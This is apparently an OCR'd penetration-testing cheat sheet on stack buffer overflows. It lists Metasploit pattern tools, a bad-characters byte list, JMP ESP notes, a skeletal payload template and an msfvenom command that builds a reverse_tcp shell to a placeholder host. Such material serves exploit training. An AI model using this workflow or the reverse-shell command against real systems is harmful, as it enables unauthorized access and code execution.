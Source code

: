 # **Buffer Overflow** #

## **What is Buffer Overflow?** ##
A buffer overflow occurs when a program attempts to store more data in a buffer, or temporary storage area, than it was designed to hold. This can lead to the excess data overwriting adjacent memory locations, potentially causing the program to behave unpredictably, crash, or even allow attackers to execute malicious code. It's a common security vulnerability that can be exploited by attackers to gain unauthorized access to a system or escalate their privileges.

## **Payload** ##

payload = "\x41" \* + + "\x90" \* 16 + + "\x43" \*


## **Pattern create** ##

/usr/share/metasploit-framework/tools/exploit/pattern\_create.rb -l


## **Pattern offset** ##

/usr/share/metasploit-framework/tools/exploit/pattern\_offset.rb -l -q


## **nasm** ##

/usr/share/metasploit-framework/tools/exploit/nasm\_shell.rb

nasm > jmp eax


## **Bad characters** ##

badchars = (

"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"

"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"

"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"

"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"

"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"

"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"

"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"

"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"

"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"

"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"

"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"

"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"

"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"

"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"

"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"

"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )



## **Buffer Overflow** ##

Determine length of overflow trigger w/ binary search "A"x1000

Determine exact EIP with pattern\_create.rb & pattern\_offset.rb

Determine badchars to make sure all of your payload is getting through

Develop exploit

Is the payload right at ESP

JMP ESP

Is the payload before ESP

sub ESP, 200 and then JMP ESP

or

call \[ESP-200]
```
msfvenom -a x86 --platform windows/linux -p something/shell/reverse\_tcp lhost=x.x.x.x lport=53 -f exe/elf/python/perl/php -o filename
```

Make sure it fits your payload length above

Gain shell, local priv esc or rooted already?

